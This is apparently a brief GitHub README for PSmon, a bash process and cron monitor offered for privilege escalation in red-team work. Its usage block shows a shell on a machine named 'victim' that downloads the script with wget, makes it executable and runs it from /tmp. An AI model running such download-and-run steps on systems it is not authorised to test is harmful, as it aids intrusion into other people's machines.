 # PSmon

**Bash script to monitor new processes and cron tasks that run at regular intervals of time.**

(Very useful tool to escalate privileges in Red Team operations)

```php
www-data@victim:~$ cd /tmp
www-data@victim:~$ wget https://raw.githubusercontent.com/d4t4s3c/PSmon/main/PSmon.sh
www-data@victim:~$ chmod +x PSmon.sh
www-data@victim:~$ ./PSmon.sh
```
**Screenshot**

![](/1.png)
